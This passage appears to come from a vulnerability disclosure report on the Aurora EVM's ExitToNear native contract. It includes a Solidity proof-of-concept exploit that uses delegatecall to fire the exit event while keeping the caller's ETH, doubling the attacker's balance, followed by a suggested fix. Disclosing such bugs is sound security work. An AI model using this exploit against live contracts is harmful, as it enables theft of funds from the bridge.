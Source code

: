 Here is a simple solidity code example that triggers the bug:

```solidity Exploit.sol
// SPDX-License-Identifier: GPL-3.0

pragma solidity ^0.8.7;

contract Exploit {
    address payable private owner;

    constructor() {
        owner = payable(msg.sender);
    }

    function exploit(bytes memory recipient) public payable {
        require(msg.sender == owner);

        bytes memory input = abi.encodePacked("\x00", recipient);
        uint input_size = 1 + recipient.length;

        assembly {
            let res := delegatecall(gas(), 0xe9217bc70b7ed1f598ddd3199e80b093fa71124f, add(input, 32), input_size, 0, 32)
        }

        owner.transfer(msg.value);
    }
}
```

It takes the ETH value from the caller, triggers the exit event in the ExitToNear contract, then sends the nETH back to the caller. The nETH can be deposited into Aurora EVM again, effectively doubling the attacker's original balance. As long as the `aurora` contract has enough budget to transfer, the ETH will be doubled exponentially.


## Fix

For simplicity, `delegatecall()` and `callcode()` should be banned on those native contracts. Or the `address` field of the `Log` entry can be sanitized.

## Attachments

* report.md: this report
* reproduce.md: notes on poc
* Exploit.sol: evm exploit in solidity
* deploy.sh: prepare testing accounts
* exploit.py: demo printing money
* mainnet-test.wasm: test build of release 2.5.2, with `integration-test` feature for `mint_account`
* mint\_account.py & ft\_transfer\_call.py: helper scripts for building command

